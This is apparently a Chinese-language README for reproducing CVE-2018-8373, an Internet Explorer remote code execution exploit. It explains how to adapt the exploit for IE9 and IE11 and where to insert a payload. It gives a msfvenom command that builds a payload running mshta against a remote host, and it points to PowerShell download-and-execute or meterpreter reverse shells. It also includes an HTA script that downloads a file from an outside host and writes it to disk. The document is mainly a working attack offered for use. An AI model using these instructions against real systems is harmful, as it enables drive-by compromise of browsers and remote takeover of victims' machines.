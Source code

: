 # CVE-2018-8373 REC


`怎样修改Exploit`
    
    BeforeIE9是可以对IE9之前的版本进行利用，但是在有些X64位机器上不行
    
    BeforeIE11是比较好用的，可以针对IE11之前的版本进行利用
    
    IE11 修改与CVE-2018-8174修改差不多  在165行左右 填充msf生成的payload即可

`怎样使用`
    
    IE9可以直接执行命令 调用Powershell下载执行即可
    
    IE11可以使用msf的powershell meterpreter模块反弹 也可以将下载命令使用msf编码执行

`复现注意事项`
    
    我的知乎专栏 MSF文章
    https://zhuanlan.zhihu.com/p/40091321
    生成 执行命令的payload 这个位置生成的payload是用来填充的
    msfvenom -p windows/exec cmd='mshta http://192.168.0.100:6666/hFmjv' -f js_le exitfunc=thread 
    
    填充payload的时候要注意，与8174有一点不同
    
    就是不是全填充而是在 原来的地方要修改  具体看修改  
    
    要保留如下字符串 然后在这个字符串之前填充  不然是无法复现成功的
   
    %u4100%u0065%u0000%u0000%u0000%u0000%u0000%ucc00%ucccc%ucccc%ucccc%ucccc
    
    我从官网即时下载的IE11也存在问题，所以危害还是很大的。。
    
    
# 下载文件
    
    `
    <html>
    <head>
    <script>
    var Object = new ActiveXObject("MSXML2.XMLHTTP");
    Object.open("GET","http://192.168.206.101/demo.php.zip",false);
    Object.send();
    if (Object.Status == 200)
    {
        var Stream = new ActiveXObject("ADODB.Stream");
        Stream.Open();
        Stream.Type = 1;
        Stream.Write(Object.ResponseBody);
        Stream.SaveToFile("C:\\demo.zip", 2);
        Stream.Close();
    }
    window.close();
    </script>
    <HTA:APPLICATION ShowInTaskbar = No>
    WINDOWSTATE = "minimize">
    </head>
    <body>
    </body>
    </html>
    `
    

## 最后感谢看雪大佬提供的EXP。



